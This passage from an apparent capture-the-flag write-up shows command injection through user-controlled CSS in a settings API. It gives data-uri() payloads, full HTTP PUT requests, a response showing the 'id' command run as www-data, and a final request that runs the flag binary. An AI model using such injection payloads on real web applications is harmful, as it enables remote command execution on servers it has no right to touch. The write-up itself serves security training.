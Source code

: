 Since `$filePath` is user-controlled, we can inject CSS that contains the command which will be executed when `getFilePath()` is called. For example:
```css
.test { 
    content: data-uri('id'); 
}
```

The HTTP request to inject this CSS is as follows

<ins>Request (HTTP):</ins>

```http
PUT /api/settings/css HTTP/1.1
Host: localhost
Content-Type: application/json
Authorization: Bearer <JWT Token>

{"css":".test { content: data-uri('id');}"}
```

The response will include the result of the command execution.

<ins>Response (HTTP):</ins>

```http
HTTP/1.1 200 OK
Date: Sun, 02 Feb 2025 12:14:50 GMT
Server: Apache/2.4.56 (Debian)
X-Powered-By: PHP/8.0.30
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json
Content-Length: 114

uid=33(www-data) gid=33(www-data) groups=33(www-data)
{"success":true,"message":"Custom CSS updated successfully"}
```

And to finally get the flag, we need to execute `/getflag PWNME`:
```css
.test { 
    content: data-uri('/getflag PWNME'); 
}
```

The HTTP request to inject this CSS is as follows.

<ins>Request (HTTP):</ins>

```http
PUT /api/settings/css HTTP/1.1
Host: localhost
Content-Type: application/json
Authorization: Bearer <JWT Token>

{"css":".test { content: data-uri('/getflag PWNME');}"}
```
